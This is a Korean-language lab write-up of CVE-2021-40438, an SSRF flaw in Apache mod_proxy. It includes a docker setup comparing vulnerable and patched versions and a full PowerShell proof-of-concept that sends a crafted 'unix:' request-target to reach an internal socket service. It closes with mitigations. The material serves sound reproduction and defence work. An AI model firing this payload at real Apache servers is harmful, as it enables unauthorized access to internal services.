


# CVE-2021-40438 Apache HTTP Server mod_proxy SSRF

**Contributor**

- [@Potatonion](https://github.com/Potatonion)

## 1. 취약점 요약

CVE-2021-40438은 Apache HTTP Server의 mod_proxy 모듈에서 발생한 SSRF 취약점이다. 조작된 request URI path로 인해 mod_proxy가 원래 설정된 backend가 아니라 원격 사용자가 선택한 origin server 또는 Unix domain socket 대상으로 요청을 전달할 수 있다.

- 영향 버전: Apache HTTP Server 2.4.48 이하
- 수정 버전: Apache HTTP Server 2.4.49 이상
- 취약 유형: SSRF
- NVD CVSS v3.1: 9.0 Critical
- CVSS Vector: CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:C/C:H/I:H/A:H

## 2. 환경 구성

이 실습 환경은 호스트에는 Apache만 노출하고, backend와 secret 서비스는 컨테이너 내부 네트워크 및 공유 Unix socket을 통해서만 접근되도록 구성했다.

- apache: 취약 버전 Apache HTTP Server 2.4.48, 127.0.0.1:8080에 바인딩
- apache-fixed: 패치 버전 Apache HTTP Server 2.4.49, 127.0.0.1:8081에 바인딩
- backend: 정상 reverse proxy 대상 서비스
- secret: 외부에서 직접 접근할 수 없는 내부 서비스이며 /sock/secret.sock Unix socket도 수신

실습 구조:

```text
사용자
  -> Apache 2.4.48 또는 2.4.49
  -> 정상 경로: backend:8080
  -> 취약 경로: /sock/secret.sock Unix socket을 통한 secret 서비스
```

## 3. 취약 조건

다음 조건에서 CVE-2021-40438을 재현할 수 있다.

- Apache HTTP Server 2.4.48 이하 사용
- mod_proxy 및 mod_proxy_http 활성화
- ProxyPass를 이용한 reverse proxy 구성 존재
- 요청 URI path가 proxy 처리 단계에서 조작 가능한 형태로 전달됨
- URI path 내부의 unix:... 구문과 구분자가 mod_proxy의 Unix domain socket proxy 문법으로 잘못 해석됨

이 실습에서는 Apache 설정에 다음 reverse proxy 경로를 둔다.

```apache
ProxyPass "/app/" "http://backend:8080/" nocanon
ProxyPassReverse "/app/" "http://backend:8080/"
```

## 4. 재현 절차

깨끗한 환경에서 다음 명령만 실행하면 된다.

```powershell
docker compose up --build -d
docker compose ps
.\poc-8080.ps1 # 취약한 환경
.\poc-8081.ps1 # 패치된 환경
```

## 5. PoC 코드

PoC는 curl 대신 PowerShell TCP 소켓을 사용한다. curl은 특수 문자를 URL 인코딩할 수 있어, 원시 HTTP request를 직접 보내기 위함이다.

취약 버전 8080 대상 PoC는 `poc-8080.ps1`이다. 핵심 request-target은 다음과 같다.

```text
/app/unix:/sock/secret.sock|http://ignored/poc
```

전체 PoC 코드는 다음과 같다.

```powershell
param(
    [string]$HostName = "127.0.0.1",
    [int]$Port = 8080,
    [string]$Prefix = "/app/",
    [string]$SocketPath = "/sock/secret.sock",
    [string]$UpstreamUrl = "http://ignored/poc"
)

$ErrorActionPreference = "Stop"

$target = $Prefix.TrimEnd("/") + "/unix:$SocketPath|$UpstreamUrl"
$request = "GET $target HTTP/1.1`r`nHost: $HostName`:$Port`r`nConnection: close`r`n`r`n"

$client = [System.Net.Sockets.TcpClient]::new($HostName, $Port)
$stream = $client.GetStream()
$bytes = [System.Text.Encoding]::ASCII.GetBytes($request)
$stream.Write($bytes, 0, $bytes.Length)

$buffer = New-Object byte[] 8192
$response = [System.Text.StringBuilder]::new()
while (($read = $stream.Read($buffer, 0, $buffer.Length)) -gt 0) {
    [void]$response.Append([System.Text.Encoding]::ASCII.GetString($buffer, 0, $read))
}

$client.Close()

Write-Host "[+] Sent raw request-target:"
Write-Host "    $target"
Write-Host ""
Write-Host "[+] Response:"
$response.ToString()
```

패치 버전 8081 비교 PoC는 `poc-8081.ps1`이다. 두 스크립트는 동일한 request-target을 사용하고 포트만 다르다.

## 6. 실행 결과

### 6.1 취약 버전 Apache 2.4.48, 포트 8080

다음 명령으로 취약 버전 대상 PoC를 실행한다.

```powershell
.\poc-8080.ps1
```

실행 결과 요청이 backend가 아니라 secret 서비스로 전달된다.

```json
{
  "service": "secret",
  "secret": "secret!!"
}
```



### 6.2 패치 버전 Apache 2.4.49, 포트 8081

다음 명령으로 패치 버전 대상 비교 PoC를 실행한다.

```powershell
.\poc-8081.ps1
```

실행 결과 같은 request-target이 secret으로 빠지지 않고 정상 backend로 전달된다.

```json
{
  "service": "backend",
  "message": "normal reverse proxy target",
  "path": "/unix:/sock/secret.sock|http://ignored/poc",
  "host": "127.0.0.1:8081"
}
```



따라서 같은 PoC 요청에 대해 2.4.48은 내부 secret으로 요청이 전달되고, 2.4.49는 일반 path로 처리되어 backend에 남는 차이를 확인할 수 있다.

## 7. 대응 방안

- CVE-2021-40438은 Apache HTTP Server 2.4.49에서 수정되었으며, 운영 환경은 현재 지원되는 최신 안정 버전으로 업그레이드한다.
- mod_proxy, mod_proxy_http 등 사용하지 않는 proxy 모듈은 비활성화한다.
- reverse proxy 경로에서 외부 입력이 proxy 대상 URL 또는 Unix domain socket 구문으로 해석되지 않도록 제한한다.
- 내부 서비스와 Unix domain socket의 접근 권한을 최소화한다.
- Docker socket, cloud metadata endpoint, 관리자 API 등 민감한 내부 자원은 웹 프록시 프로세스가 접근하지 못하도록 격리한다.

## 8. 평가 기준 자체 산정

- Reproducibility: 90%
  - docker compose 하나로 취약 버전과 패치 버전 비교 환경이 구성된다.
  - PoC 스크립트가 PowerShell만으로 원시 HTTP 요청을 보내므로 Windows 환경에서 재현 절차가 단순하다.
- Risk Score: 9.0
  - NVD CVSS v3.1 기준 9.0 Critical이다.
  - 인증 없이 원격에서 요청 가능하며, 내부 서비스 접근으로 영향 범위가 변경될 수 있다.

## 9. 참고 자료

- Apache HTTP Server 2.4 vulnerabilities: https://httpd.apache.org/security/vulnerabilities_24.html
- NVD CVE-2021-40438: https://nvd.nist.gov/vuln/detail/CVE-2021-40438
